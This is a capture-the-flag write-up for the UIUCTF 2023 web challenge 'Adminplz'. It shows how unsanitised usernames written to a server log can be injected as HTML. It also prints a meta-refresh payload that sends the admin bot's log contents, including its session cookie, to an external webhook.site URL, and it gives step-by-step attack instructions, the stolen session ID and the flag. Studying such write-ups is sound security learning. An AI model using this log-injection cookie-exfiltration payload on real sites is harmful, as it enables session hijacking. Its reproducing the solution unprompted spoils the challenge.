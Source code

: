 # Adminplz (UIUCTF 2023)

**Challenge category**: Web<br>
**Challenge description**: "your daily dose of ☕"<br>
**Challenge points**: 322<br>
**CTF date**: sab, 01 Lug. 2023, 00:00 UTC — lun, 03 Lug. 2023, 00:00 UTC<br>

## Context

This challenge involves a Log Injection that leads to cookie exfiltration.

## Exploring the challenge

![1](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/5ab67534-cd47-4328-bd60-73ab33e3e6d0)

![4](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/d673a902-6b96-49e5-97e5-8c8689e861cd)


![2](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/be43b485-a783-4e69-90d9-553995228101)

The only thing we can do on this page is login and submit a URL to the admin bot. If we access the <code>/admin</code> endpoint, we will get an error:

![3](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/e5169f48-6c01-4e8a-9ee9-ec89a89ce823)

Let's have a look at the Java code.
```javascript
const { chromium } = require('playwright-chromium');
const URL = process.argv[2];

(async () => {
    console.log('running admin bot...')
    const browser = await chromium.launch()
    const context = await browser.newContext()
    context.setDefaultTimeout(2000)
    const page = await context.newPage()
    await page.goto('http://127.0.0.1:8080/')

    // login
    await page.type('input[name=username]', 'admin')
    await page.type('input[name=password]', process.env.ADMIN_PASSWORD)
    await Promise.all([
      page.click('input[type=submit]'),
      page.waitForNavigation({
        waitUntil: 'networkidle0',
      }),
    ]);
    // visit url
    console.log("visiting target...");
    await page.goto(URL);
    await page.waitForTimeout(900000); // 15 min
    await browser.close()
    console.log('Success!')
})();
```
For the bot, the server is on 127.0.0.1 on port 8080. It logs on the server and then visits the submitted URL.
```java
@Component
public class CSP implements Filter {
    @Override
    public void doFilter(ServletRequest request,
                         ServletResponse response,
                         FilterChain chain) throws ServletException, IOException {
        ((HttpServletResponse) response).addHeader("Content-Security-Policy", "default-src 'none';");
        chain.doFilter(request, response);
    }
}

```
CSP is set to <code>default-src 'none'</code>. A very strict policy that prevents any external resources from being loaded and any scripts from running, so no XSS.
```java
@PostMapping(path = "/login", consumes = {MediaType.APPLICATION_FORM_URLENCODED_VALUE})
    public String login(HttpSession session, User user) {
        if (user.getUsername().equals("admin") && !user.getPassword().equals(ADMIN_PASSWORD)) {
            return "not allowed";
        }
        session.setAttribute("user", user);
        return "logged in";
    }
```
We can't log in as admin since we don't know the password, but we can log in as any user, our username will be set accordingly (password isn't checked).
```java
@GetMapping("/admin")
    public Resource admin(HttpServletRequest req, HttpSession session, @RequestParam String view) {
        if (isLoggedIn(session) && view.contains("flag")) {
            logger.warn("user {} [{}] attempted to access restricted view", ((User) session.getAttribute("user")).getUsername(), session.getId());
        }
        return app.getResource(isAdmin(req, session) ? view : "error.html");
    }
```
Here, two things: our username could be written inside a log (<code>/var/log/adminplz/latest.log</code>) without going through any sanitization process and
a resource specified by a user-controllable GET parameter (<code>view</code>) is returned to the admin (if they access the endpoint).
The <code>accessResource()</code> method accepts filenames and URLs (of any protocol).<br>
There is no possibility for an XSS, nor possibility to inject anything on any page. The only file we can inject something into, if we are registered and
the <code>view</code> parameter contains the substring "flag", it is <code>/var/log/adminplz/latest.log</code>. This file can be viewed as HTML by the bot's browser if required (via the <code>/admin</code> endpoint and the <code>view</code> parameter).
Sending a url like <code>http://127.0.0.1:8080/admin?view=file:///var/log/adminplz/latest.log</code> will cause the admin bot to view the log file as an HTML page.
But what can we do? We cannot activate XSS or load any external resources. Therefore, it is impossible to get the content of <code>/flag.html</code>. Can we steal cookies even without XSS? Yes!
If we look at the code above (the admin one), we can see that not only the username is registered, but also the session ID. If the admin visits a url
such as <code>http://127.0.0.1:8080/admin?view=file:///flag.html</code>, its session id (authentication cookie) is written to the log. If we can exfiltrate this,
we can authenticate to the server as admin. There is only text in the log, but we can insert HTML through the username.
How can we exfiltrate the admin cookie with a very strict CSP policy? With a <code>meta</code> tag that redirects the client to a URL that
incorporates part of the content of the log (administrative cookies included) inside it:
```html
.... <html><head><meta http-equiv="refresh" content='0; url=https://webhook.site/a2e16dd2-9690-4246-8c58-abf303c42a4b?exf=

...Log content...

'></head> ....
```
This HTML code could redirect the client to the specified URL, including in the <code>exf</code> parameter all the content written before the single quote. If the server logs an admin event within this content, before injecting the <code>'>\</head\></code> part, we can exfiltrate the admin authentication cookie.

## Attack
Six steps:
+ Login with username <code><html><head><meta http-equiv="refresh" content='0; url=https://webhook.site/a2e16dd2-9690-4246-8c58-abf303c42a4b?exf=</code>.
+ Visit <code>https://instance_server/admin?view=file:///flag.html</code> (it is important that the <code>view</code> parameter contains a valid path (existing file), otherwise an error will be raised and the content of the log will be restored, erasing our previous input).
+ Submit the url <code>https://127.0.0.1:8080/admin?view=file:///flag.html</code> to the admin bot.
+ Login with username <code><html>'>\</head\></code>.
+ Visit <code>https://instance_server/admin?view=file:///flag.html</code>.
+ Submit the url <code>http://127.0.0.1:8080/admin?view=file:///var/log/adminplz/latest.log</code> to the admin bot.

After performing these steps, our server will receive a GET request with all exfiltrated content within a query parameter.

![adminplz_cookie](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/de9a0540-c05e-4747-9917-06997257a46a)


We got admin's session ID (<code>36D142A1763851F1DE47DEB881FC2A3A</code>)!
We now need to use this cookie when accessing the <code>/admin</code> endpoint. To access the flag file we need to set the <code>view</code>
parameter to <code>file:///flag.html.</code>, then: <code>https://instance_server/admin?view=file:///flag.html</code>. By visiting this link we will get the flag!

![adminplz_flag](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/888aa3a9-0937-4f36-b173-8a7777136c59)

Flag is <code>uiuctf{adminplz_c4n_1_h4v3_s0M3_co0k13s?_b5eab1cc61c26f07e63af7f8}</code>.

